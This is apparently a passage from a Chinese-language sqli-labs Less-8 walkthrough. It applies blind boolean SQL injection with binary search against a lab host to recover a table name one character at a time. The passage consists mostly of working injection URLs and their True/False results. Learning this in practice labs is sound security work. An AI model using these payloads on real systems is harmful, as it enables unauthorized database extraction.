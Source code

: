 采用二分法。

以下返回`You are in`表示`True`,无返回表示`Flase`

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 95<=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

95:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 109<=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

109:Flase

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 102<=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

102:Flase

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 98<=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

98:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 100<=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

100:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 101<=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

101:True

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 101=ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))%23`

![12](/img/sql/Lesson-8/12.png)

